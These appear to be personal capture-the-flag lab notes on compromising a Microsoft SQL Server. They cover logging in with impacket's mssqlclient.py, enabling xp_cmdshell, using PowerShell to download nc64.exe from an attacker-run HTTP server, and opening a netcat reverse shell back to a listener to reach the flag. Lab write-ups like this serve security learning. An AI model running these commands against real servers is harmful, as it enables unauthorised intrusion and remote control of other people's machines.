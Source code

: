 # MSSQL Server
﷽
* MSSQL Server is Microsoft's database system used to store and manage structured data using SQL.

## exploitation
### `impacket/mssqlclient.py`

* we can connect to the SQL server by using the `mssqlclient.py` script.
* the command would look like:
  * `python3 mssqlclient.py ARCHETYPE/sql_svc@{TARGET_IP} -windows-auth`, where:
    * `ARCHETYPE/sql_svc` is the username
    * {target-ip} should be the target-ip
    * `-windows-auth` should be specified to use Windows Authentication.
  * provide a password when prompted
* a shell should be obtained :)

### upon connection

* guide: `https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet`

* firstly, check the role we have on the server:
  * `SELECT is_srvrolemember('sysadmin');`, where a `1` is TRUE and a `0` is FALSE, where:
    * TRUE (or `1`) means that we are a sysadmin.

#### `xp-cmdshell`

* used for setting up command execution through SQL.

* check if it is enabled:
  * `EXEC xp_cmdshell 'net user';`

* then, to enable it:

`EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
sp_configure; - Enabling the sp_configure as stated in the above error message
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;`

* now, we should be able to execute commands:
  * `xp-cmdshell "whoami"`

##### obtaining a reverse shell

* on the host computer, start a simple HTTP server in the same dir as `nc64.exe`:
  * `sudo python3 -m http.server 80`
    * this is to place the `nc64.exe` file onto the victim so we can obtain the rev-shell.

* then, start a `nc` listener on a port:
  * `sudo nc -lvnp 4444`

---back to the victim computer---

* we are going to use `powershell` to run commands as it has way more than `cmd`.
* the syntax is `powershell -c {command}`
* so, the prompt on our SQL server becomes eg. 
  * `xp_cmdshell "powershell -c whoami"` where whoami is the command to run.

* we need to place the `nc64.exe` binary on the victim computer:
  * `xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget http://{our-ip}/nc64.exe -outfile nc64.exe"`, where
    * `{our-ip}` is the IP of interface `utun7` of our computer (at least for `ovpn`).

* our HTTP server should verify that the request has happened.

* now, we bind the `cmd.exe` through the `nc` to our listener:
  * `xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; .\nc64.exe -e cmd.exe {utun7-ip} 4444"`

* we should have our reverse shell :)

* navigate to `C:\Users\sql_svc\Desktop` to find the flag.
